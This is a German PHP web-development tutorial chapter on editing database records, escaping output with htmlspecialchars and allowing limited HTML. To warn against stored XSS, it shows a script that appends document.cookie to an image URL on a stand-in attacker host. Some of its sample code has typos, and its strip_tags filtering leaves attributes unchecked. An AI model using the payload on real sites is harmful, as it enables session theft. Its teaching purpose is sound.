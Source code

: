 ```yaml
---
title: Daten Bearbeiten
order: 40
---
```


Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur
Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Formular zum Bearbeiten einer Person](/images/person_edit.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement,
da die ID aus dem GET-Parameter gelesen wurde:

<php caption="laden des Datensatzes, der editiert werden soll">
$sth = $dbh->prepare( "SELECT * FROM users WHERE id=?" );
$sth->execute( array( $id ) );
$person = $sth->fetch();
</php>

### Das Bearbeitungs-Formular

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als
Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute
und bei Textareas als Inhalt des Tags:

<htmlcode>
<input name="firstname" value="Tobias">
<textarea name="description" rows="7">Webdesigner</textarea>
</htmlcode>

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder
Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein
Beispiel in MySQL:

<sql>
MariaDB [portfolio_playground]> select firstname,description from users where id=438;
+--------------------+--------------------------------+
| firstname          | description                    |
+--------------------+--------------------------------+
| Tobias "der Coder" | Mein Lieblings-Tag ist <style> |
+--------------------+--------------------------------+
1 row in set (0.00 sec)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
<input name="firstname" value="Tobias "the Coder"">
<textarea name="description" rows="7">Mein Lieblings-Tag ist <style></textarea>
</htmlcode>

Das Attribut `value` endet zu früh, und der `<style>` Tag lässt
den Rest der Webseite verschwinden.

§

Richtig ist die Darstellung gewisser Zeichen als HTML Entities:

<htmlcode>
<input name="firstname" value="Tobias &quot;the coder&quot;">
<textarea name="description" rows="7">Mein Lieblings-Tag ist &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion
`htmlspecialchars`[&rarr;](http://www.php.net/manual/en/function.htmlspecialchars.php) vorgenommen:

<php>
htmlspecialchars( $person->firstname );
</php>
§

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php caption="Darstellung eines Eingabe-Felds des Edit-Formulars mit PHP">
<input name="firstname" value="<?php echo htmlspecialchars( $person->firstname ) ?>">
<textarea name="description" rows="7"><?php echo htmlspecialchars( $person->description ) ?></textarea>
</php>

### Verarbeitung des POST-Request

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php caption="Update der Daten von PHP aus">
$sth = $dbh->prepare(
  "UPDATE users SET
    firstname=?,surname=?,email=?,
    profile_visible=?,description=? 
   WHERE id=?");

$update_went_ok = $sth->execute(
  array(
    $_POST['firstname'],
    $_POST['surname'],
    $_POST['email'],
    $_POST['profile_visible'],
    $_POST['description'],
    $_POST['id']
  )
);

header("Location: person.php?id=" . $_POST['id']);
exit;
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank durchführen müssen. Wir haben bisher einfach die Daten direkt mit echo ausgegeben:

<php caption="Ausgabe von Daten aus der Datenbank ohne html-escaping">
<?php echo $person->firstname ?>
<?php echo $person->surname ?>
hat insgesamt  <?php echo $no ?> Werke in dieser Datenbank.
// problematisch!
</php>

§

Wenn hier in der Description „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = htmlspecialchars( $person->description' );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/html-escaped1.png)

 Darstellen von HTML
---------------------
Im letzten Beispielen wurde der eingegebene HTML-Tag sichtbar auf der Webseite
angezeigt. Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags
wieder anzeigen?

### Gefahren
Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist
gefährlich! Dazu zwei Beispiele: Sie bauen ein Gästebuch in dem BesucherInnen
beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Ihrem Webserver geladen, sondern vom Webserver von
Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes
aufgerufen. D.h. Herr Lauscher kann sehr bequem mit-loggen wie viele Zugriffe
auf das Gästebuch erfolgen. Falls Herr Lauscher die Gästebuch-Besucher schon
kennt (schon ein Cookie in Ihrem Browser gesetzt hat) kann er sie auch
identifizieren.

Sie haben Herrn Lauscher also die Möglichkeit gegeben sehr viel über Ihre
BesucherInne zu erfahren. So etwas ähnliches passiert z.B. wenn Sie Google
Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen:
Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele
BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer
vorhergehenden Suche noch ein Cookie haben.)

§

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmloses bild" id="hack_tool" />
<script>
   document.getElementById("hack_tool").src += "?keks=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn Ihres Gästebuchs entwenden. Sie
kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Lassen Sie niemals, niemals, niemals zu, dass Fremde Javascript in Ihre Site einspeisen können!

§

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code
z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und
„wirkt nicht“:

![Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/html-escaped.png)

### Eingabe von HTML

Die Eingabe des HTML-Codes können Sie mit einem Javascript-Editor wie TinyMCE
erleichtern. TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/tinymce.png)

Mit HTML5 gibt es auch die Möglichkeit ohne Textfeld, mit content-editable einen
Editor zu erstellen. Ein Beispiel dafür ist der Aloha Editor:

![Aloha Editor](/images/aloha.png)

### Behandlugn von eingegebenem HTML

Für die Beispiel-Applikation wollen wir Zulassen, dass im Profil die HTML-Tags
`<p>` und `<b>` verwendet werden können, mehr nicht. Dass es nur diese
Tags und keine anderen sind wird bei der Eingabe und der Bearbeitung sicher
gestellt:

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

Nun können Sie auch die Ausgabe des Profils umstellen und auf das escapen 
der `description` verzichten:

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = strip_tags( $person->description,  "<p><b>" );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

